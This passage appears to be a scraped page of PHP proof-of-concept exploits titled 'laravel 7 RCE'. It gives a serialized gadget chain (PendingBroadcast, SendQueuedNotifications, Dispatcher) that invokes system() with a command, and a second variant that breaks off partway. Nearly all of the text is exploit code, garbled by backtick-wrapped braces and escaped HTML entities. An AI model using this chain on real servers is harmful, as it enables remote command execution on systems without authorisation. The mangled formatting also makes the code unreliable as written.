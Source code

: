exp 2

```
&lt;?php

/*
# -*- coding: utf-8 -*-
# @filename: laravel 7 RCE poc7
# @author: Ricky
*/

namespace Illuminate\Broadcasting`{`
    class PendingBroadcast `{`
        protected $events;
        protected $event;
        public function __construct($events, $event) `{`
            $this-&gt;events=$events;
            $this-&gt;event=$event;
        `}`
    `}`
`}`

namespace Illuminate\Notifications `{`
    class SendQueuedNotifications `{`
        public $connection;
        public function __construct($connection) `{`
            $this-&gt;connection = $connection;
        `}`
    `}`
`}`

namespace Illuminate\Bus `{`
    class Dispatcher `{`
        protected $queueResolver;
        public function __construct($queueResolver) `{`
            $this-&gt;queueResolver = $queueResolver;
        `}`
    `}`
`}`

namespace `{`
    $c = new Illuminate\Bus\Dispatcher('system');
    $b = new Illuminate\Notifications\SendQueuedNotifications('dir');
    $a = new Illuminate\Broadcasting\PendingBroadcast($c, $b);
    echo urlencode(serialize($a));
`}`
```

exp 3

```
&lt;?php

/*
# -*- coding: utf-8 -*-
# @filename: laravel 7 RCE poc8
# @author: Ricky
*/

namespace Illuminate\Broadcasting`{`
    class PendingBroadcast `{`
        protected $events;
        protected $event;
        public function __construct($events, $event) `{`
            $this-&gt;events=$events;
```